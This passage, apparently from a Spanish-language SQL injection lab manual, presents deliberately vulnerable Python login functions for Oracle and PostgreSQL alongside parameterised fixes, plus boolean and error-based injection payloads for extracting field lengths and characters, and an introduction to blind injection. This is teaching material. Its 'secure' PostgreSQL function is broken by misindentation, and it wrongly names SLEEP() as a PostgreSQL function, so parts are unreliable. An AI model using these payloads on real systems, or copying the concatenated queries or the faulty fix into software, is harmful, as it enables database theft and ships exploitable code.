    \item Al igual que en Oracle, es posible agregar filtros adicionales en PostgreSQL para excluir tablas del sistema o irrelevantes, utilizando condiciones como \texttt{table\_name NOT LIKE 'pg\_\%'}.
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/union9.png}
    \caption{Obtención de tablas de la base de datos en PostgreSQL}
\end{figure}

\subsection{Código vulnerable del login}
A continuación, se presenta el código vulnerable en Python para el login  tanto en \textbf{Oracle} como en \textbf{Postgre}, que permite la inyección SQL basada en \texttt{UNION SELECT}.

\subsubsection{Código vulnerable en Oracle}
En el siguiente código para el login en Oracle, la vulnerabilidad radica en la concatenación directa de las entradas del usuario (\texttt{username} y \texttt{password}) en la consulta SQL, sin realizar validación o sanitización:

\begin{lstlisting}[language=Python]
def login_inseguro_base_oracle(username, password):
    conexion = dbConectarOracle()
    if not conexion:
        return False
    sentencia = "SELECT * FROM Usuarios WHERE username = '"+username+"'
                                        AND password = '"+password+"'"
    try:
        cursor = conexion.cursor()
        cursor.execute(sentencia)
        usuario = cursor.fetchall()
        cursor.close()
        if usuario:
            return {"resultado": usuario, "sentencia": sentencia, "auth": "true"}
        else:
            return {"sentencia": sentencia}
    except PBD.DatabaseError as error:
        return {"resultado": error, "sentencia": sentencia}
\end{lstlisting}

\textbf{Localización de la vulnerabilidad}: La vulnerabilidad se encuentra en la construcción de la variable \texttt{sentencia}, donde los valores proporcionados por el usuario se concatenan directamente en la consulta SQL.

\begin{lstlisting}[language=Python]
sentencia = "SELECT * FROM Usuarios WHERE username = '"+username+"' AND password = '"+password+"'"
\end{lstlisting}

Esta práctica permite que un atacante inserte código SQL malicioso que manipule la consulta.

\subsubsection{Versión segura del código en Oracle}
Para evitar inyecciones SQL, se debe usar consultas parametrizadas:

\begin{lstlisting}[language=Python]
def login_seguro_base_oracle(username, password):
    conexion = dbConectarOracle()
    if not conexion:
        return False
    sentencia = "SELECT * FROM Usuarios WHERE (*@\colorbox{yellow}{username = :username}@*)
                                         AND (*@\colorbox{yellow}{password = :password}@*)"
    try:
        cursor = conexion.cursor()
        cursor.execute(sentencia, {"username": (*@\colorbox{yellow}{username}@*), "password": (*@\colorbox{yellow}{password}@*)})
        usuario = cursor.fetchall()
        cursor.close()
        if usuario:
            return {"resultado": usuario, "auth": "true"}
        else:
            return {"auth": "false"}
    except PBD.DatabaseError as error:
        return {"resultado": error}
\end{lstlisting}

\subsubsection{Código vulnerable en Postgre}

El siguiente código para el login en PostgreSQL presenta la misma vulnerabilidad, utilizando concatenación directa de las entradas del usuario en la consulta SQL:

\begin{lstlisting}[language=Python]
def login_inseguro_base_postgresql(username, password):
    conexion = dbConectarPostgreSQL()
    if not conexion:
        return False
    sentencia = "SELECT * FROM Usuarios WHERE username = '"+username+"' AND password = '"+password+"'"
    try:
        cursor = conexion.cursor()
        cursor.execute(sentencia)
        usuario = cursor.fetchall()
        cursor.close()
        if usuario:
            return {"resultado": usuario, "sentencia": sentencia, "auth": "true"}
        else:
            return {"sentencia": sentencia}
    except PBD.DatabaseError as error:
        return {"resultado": error, "sentencia": sentencia}
\end{lstlisting}

\textbf{Localización de la vulnerabilidad}: La vulnerabilidad está en la construcción de la variable \texttt{sentencia}, donde se concatena directamente la entrada del usuario.

\begin{lstlisting}[language=Python]
sentencia = "SELECT * FROM Usuarios WHERE username = '"+username+"' AND password = '"+password+"'"
\end{lstlisting}

\subsubsection{Versión segura del código en Postgre}
En PostgreSQL, se deben usar consultas parametrizadas con \texttt{psycopg2}:

\begin{lstlisting}[language=Python]
def login_seguro_base_postgresql(username, password):
    conexion = dbConectarPostgreSQL()
    if not conexion:
        return False
        sentencia = "SELECT * FROM Usuarios WHERE (*@\colorbox{yellow}{username = \%s AND password = \%s}@*)"
    try:
        cursor = conexion.cursor()
        cursor.execute(sentencia, ((*@\colorbox{yellow}{username, password}@*)))
        usuario = cursor.fetchall()
        cursor.close()
        if usuario:
            return {"resultado": usuario, "auth": "true"}
        else:
            return {"auth": "false"}
    except PBD.DatabaseError as error:
        return {"resultado": error}
\end{lstlisting}

\section{Inyección basada en Booleanos}

La inyección SQL basada en booleanos es una técnica en la que un atacante explota vulnerabilidades en las consultas SQL de una aplicación para inferir información sobre la base de datos. Este ataque se basa en el análisis de las respuestas de la aplicación web a consultas booleanas, es decir, aquellas que evalúan condiciones como verdaderas o falsas. A diferencia de otros métodos, esta técnica no requiere acceso directo a los resultados de la base de datos; en su lugar, el atacante utiliza las diferencias en las respuestas de la aplicación (como cambios en el contenido, mensajes de error o tiempo de carga) para deducir información sensible. Prevenir este tipo de ataques requiere una estricta validación de entradas, el uso de consultas parametrizadas y una adecuada configuración de los mensajes de error.

\subsection{Mecanismo del ataque}

\begin{enumerate}
    \item \textbf{Identificación de puntos vulnerables:} El atacante busca parámetros de entrada en la aplicación web que interactúan directamente con la base de datos. Esto puede incluir campos de formularios, parámetros en la URL, cookies o encabezados HTTP. Una vez localizado un punto vulnerable, el atacante comienza a probar diferentes inyecciones booleanas.

    \item \textbf{Construcción de consultas booleanas:} Utilizando inyecciones como:
    \begin{verbatim}
    http://example.com/page.php?id=1 AND 1=1
    \end{verbatim}
    (siempre verdadera) y:
    \begin{verbatim}
    http://example.com/page.php?id=1 AND 1=2
    \end{verbatim}
    (siempre falsa), el atacante evalúa las diferencias en las respuestas de la aplicación. Por ejemplo, si la primera consulta devuelve contenido y la segunda no, el atacante confirma que la entrada es vulnerable.

    \item \textbf{Inferencia de datos sensibles:} Una vez confirmada la vulnerabilidad, el atacante realiza consultas booleanas para inferir información sobre la base de datos. Por ejemplo, puede intentar determinar la longitud del nombre de una tabla:
    \begin{verbatim}
    http://example.com/page.php?id=1 AND LENGTH(table_name)=5
    \end{verbatim}
    Si la aplicación devuelve contenido en esta condición, el atacante deduce que el nombre de la tabla tiene 5 caracteres. Este proceso se repite para extraer más información, como nombres de columnas o datos específicos.

\end{enumerate}

Para acceder a la sección específica para esta inyección en el laboratorio, una vez desplegado el servidor, se debe seleccionar la opción Boolean-Based SQL Injection, en Oracle o en PostgreSQL.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/BooleanSQLIMenu.png}
    \caption{Opción de Boolean-Based SQL Injection en el laboratorio de inyecciones SQL}
\end{figure}

En esta sección, se tiene un formulario básico de inicio de sesión con dos campos: \textit{usuario} y \textit{contraseña}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/BooleanSQLILab.png}
    \caption{Formulario de inicio de sesión para Boolean-Based SQL Injection}
\end{figure}

Se puede observar también la descripción de la inyección, su grado de dificultad, y su grado de peligrosidad.


\subsection{Obtención del número de carácteres de un campo}

Una de las primeras técnicas que un atacante puede utilizar en una inyección SQL basada en booleanos es determinar la longitud de un campo en la base de datos. Esta información es crucial para ataques posteriores, ya que permite al atacante ajustar las inyecciones y extraer datos de manera más efectiva. Para obtener la longitud de un campo, el atacante envía consultas booleanas que evalúan la longitud de un campo específico y analiza las respuestas de la aplicación para inferir la longitud real.

\vspace{0,5cm}

En primer lugar se va a hacer uso de la inyeccion en la base de datos Oracle, para ello se va a utilizar la siguiente inyección SQL para determinar la longitud del campo \textit{username} en la tabla \textit{usuarios}:

\vspace{0,5cm}

En el usuario:

\begin{lstlisting}[language=SQL]
' OR (SELECT CASE WHEN (LENGTH(username) = 5) THEN 1/0 ELSE 1 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
\end{lstlisting}
\vspace{0,5cm}


En la contraseña se introduce cualquier valor válido.
\vspace{0,5cm}


\textbf{Explicación de la inyección:}
\begin{itemize}
    \item \texttt{LENGTH(username) = 5}: Esta condición evalúa si la longitud del campo \texttt{username} es igual a 5. Si la condición es verdadera, se produce un error de división por cero (\texttt{1/0}), lo que indica al atacante que la longitud es 5. Si la condición es falsa, no se produce un error y el atacante puede inferir que la longitud es diferente de 5.
    \item \texttt{ROWNUM AS rn FROM Usuarios WHERE rn=1}: Se utiliza para limitar la consulta a una sola fila, ya que la inyección booleana debe evaluar la longitud de un campo en una fila específica.
    \item \texttt{1 = 1}: Es una condición siempre verdadera que se utiliza para mantener la consulta original válida y evitar errores de sintaxis.
    \item \texttt{--}: Es un comentario que se utiliza para eliminar cualquier condición adicional en la consulta original, asegurando que la inyección se ejecute sin restricciones.
    \item Al ejecutar esta inyección, el atacante puede inferir la longitud del campo \texttt{username} en la tabla \texttt{usuarios} basándose en la respuesta de la aplicación.
    \item En el laboratorio, la aplicación responde de manera diferente si la longitud es correcta o incorrecta, lo que permite al atacante confirmar la longitud del campo.
\end{itemize}

\vspace{0,5cm}

En caso de ser correcta la longitud, la aplicación mostrará un mensaje de error, indicando que hay una división por cero, lo que indica que la longitud del campo es 5. El error es el siguiente: 

\begin{center}
    \texttt{ORA-01476: el divisor es igual a cero}
    \end{center}
    
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/BooleanSQLINumCT.png}
    \caption{Determinación de la longitud del campo \textit{username} en Oracle}
\end{figure}

En cambio, si la longitud es incorrecta, la aplicación mostrará un mensaje de error diferente, indicando que las credenciales son incorrectas.

\vspace{0,5cm}

Esta inyección podría ser automatizada mediante un script que pruebe diferentes longitudes hasta encontrar la correcta, lo que permitiría al atacante obtener información sobre la estructura de la base de datos de manera más eficiente.

\vspace{0,5cm}


\subsection{Obtención de un carácter específico de un campo}

Una vez que el atacante ha determinado la longitud de un campo, puede proceder a extraer caracteres específicos de ese campo utilizando inyecciones SQL basadas en booleanos. Este proceso implica enviar consultas que evalúan caracteres individuales en una posición determinada y analizar las respuestas de la aplicación para inferir el contenido real del campo.

\vspace{0,5cm}

En el caso de la base de datos Oracle, se va a utilizar la siguiente inyección SQL para obtener el primer carácter del campo \textit{username} en la tabla \textit{usuarios}:

\vspace{0,5cm}

En el usuario:

\begin{lstlisting}[language=SQL]
' OR (SELECT CASE WHEN (SUBSTR(username, 1, 1) = 'a') THEN 1/0 ELSE 1 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
\end{lstlisting}

En la contraseña se introduce cualquier valor válido.

\vspace{0,5cm}

\textbf{Explicación de la inyección:}

\begin{itemize}
    \item \texttt{SUBSTR(username, 1, 1) = 'a'}: Esta condición evalúa si el primer carácter del campo \texttt{username} es igual a \texttt{'a'}. Si la condición es verdadera, se produce un error de división por cero (\texttt{1/0}), lo que indica al atacante que el carácter es \texttt{'a'}. Si la condición es falsa, no se produce un error y el atacante puede inferir que el carácter es diferente de \texttt{'a'}.
    \item \texttt{ROWNUM AS rn FROM Usuarios WHERE rn=1}: Se utiliza para limitar la consulta a una sola fila, ya que la inyección booleana debe evaluar el carácter en una fila específica.
    \item \texttt{1 = 1}: Es una condición siempre verdadera que se utiliza para mantener la consulta original válida y evitar errores de sintaxis.
    \item \texttt{--}: Es un comentario que se utiliza para eliminar cualquier condición adicional en la consulta original, asegurando que la inyección se ejecute sin restricciones.
    \item Al ejecutar esta inyección, el atacante puede inferir el primer carácter del campo \texttt{username} en la tabla \texttt{usuarios} basándose en la respuesta de la aplicación.
    \item En el laboratorio, la aplicación responde de manera diferente si el carácter es correcto o incorrecto, lo que permite al atacante confirmar el contenido del campo.

\end{itemize}

En caso de ser correcto el carácter, la aplicación mostrará un mensaje de error, indicando que hay una división por cero, lo que indica que el primer carácter del campo es \texttt{'a'}. El error es el siguiente:

\begin{center}
    \texttt{ORA-01476: el divisor es igual a cero}
    \end{center}

\begin{figure}[H]

    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/BooleanSQLICharCT.png}
    \caption{Obtención del primer carácter del campo \textit{username} en Oracle}
\end{figure}

En cambio, si el carácter es incorrecto, la aplicación mostrará un mensaje de error diferente, indicando que las credenciales son incorrectas.

\vspace{0,5cm}

Este proceso, al igual que el anterior, podría ser automatizado mediante un script que pruebe diferentes caracteres hasta encontrar el correcto, lo que permitiría al atacante extraer información sobre el contenido real del campo de manera más eficiente. Seria posible obtener el contenido completo del campo, caracter por caracter.

\vspace{0,5cm}

\subsection{Código utilizado en el laboratorio}

En esta inyección, se reutiliza la lógica de login de las inyecciones Union-Attack, ya que la vulnerabilidad se encuentra en la misma parte del código. A continuación, se muestra el código vulnerable en Python para el login en Oracle, que permite la inyección SQL basada en booleanos:
\vspace{0,5cm}


\begin{lstlisting}[language=Python]
def login_inseguro_base_oracle(username, password):
    conexion = dbConectarOracle()
    if not conexion:
        return False
    sentencia = "SELECT * FROM Usuarios WHERE username = '"+username+"' AND password = '"+password+"'"
    try:
        cursor = conexion.cursor()
        cursor.execute(sentencia)
        usuario = cursor.fetchall()
        cursor.close()
        if usuario:
            return {"resultado": usuario, "sentencia": sentencia, "auth": "true"}
        else:
            return {"sentencia": sentencia}
    except PBD.DatabaseError as error:
        return {"resultado": error, "sentencia": sentencia}
\end{lstlisting}

\vspace{0,5cm}

\textbf{Localización de la vulnerabilidad:} La vulnerabilidad se encuentra en la construcción de la variable \texttt{sentencia}, donde los valores proporcionados por el usuario se concatenan directamente en la consulta SQL.

\vspace{0,5cm}

\subsection{Excepción de las inyecciones Boolean en PostgreSQL}

En el caso de nuestro laboratorio, el cual está diseñado para usarse con una inyección mediante división por cero, no es posible implementar la inyección en PostgreSQL, ya que este sistema analiza la consulta completa antes de ejecutarse, y si encuentra un error, no se ejecuta y lanza error.

En cambio, se podría realizar intentando buscar otra lógica en la consulta que permita inferir la información deseada.
%-----------------------------------------------------------------------------------------------
\section{Inyecciones Blind en SQL}
Las \textbf{Blind} SQL Injections son un tipo de inyección en el que un atacante puede inferir información sobre la base de datos a pesar de que la aplicación no proporciona mensajes de error explícitos o respuestas directas. A diferencia de las inyecciones SQL tradicionales, en las que los resultados de las consultas maliciosas pueden ser visibles en la interfaz de la aplicación, las inyecciones \textbf{Blind} se basan en observar diferencias en el comportamiento de la aplicación para deducir información sensible.

Este tipo de ataque es especialmente efectivo en aplicaciones que han implementado medidas básicas de seguridad, como la supresión de mensajes de error, pero que siguen siendo vulnerables debido a la falta de validación adecuada de las entradas del usuario.

\subsection{Características principales de las inyecciones Blind}

\begin{itemize}
    \item \textbf{Ausencia de mensajes de error:} 
    Las aplicaciones vulnerables no muestran mensajes de error explícitos, lo que obliga al atacante a depender de métodos indirectos para extraer información.

    \item \textbf{Dependencia del comportamiento de la aplicación:} 
    El atacante analiza cómo responde la aplicación a diferentes condiciones (por ejemplo, cambios en el contenido de las páginas, duración de las respuestas, etc.).

    \item \textbf{Ataques iterativos:} 
    Este tipo de ataque a menudo requiere múltiples consultas para extraer información carácter por carácter o bit por bit, lo que lo hace más lento que otros tipos de inyecciones SQL.
\end{itemize}

\subsection{Tipos de inyecciones Blind}

Existen varios métodos para llevar a cabo ataques Blind, dependiendo de cómo se infiera la información de la base de datos. En este laboratorio se explorarán principalmente dos tipos de inyecciones Blind:

\begin{itemize}
    \item \textbf{Basadas en condiciones booleanas:}
    Este método utiliza consultas con condiciones booleanas (\texttt{TRUE} o \texttt{FALSE}) para observar cómo cambia el comportamiento de la aplicación. Por ejemplo, un atacante podría enviar una consulta como \texttt{' OR '1'='1'} para verificar si la condición se evalúa como verdadera.

    \item \textbf{Basadas en tiempo:}
    Este enfoque utiliza funciones de retardo en SQL, como \texttt{SLEEP()} en PostgreSQL o \texttt{DBMS\_LOCK.SLEEP()} en Oracle, para medir el tiempo de respuesta de la aplicación. Si la aplicación tarda más en responder, el atacante puede inferir que la consulta fue evaluada como verdadera.

\end{itemize}

\subsection{Objetivos de las inyecciones Blind}

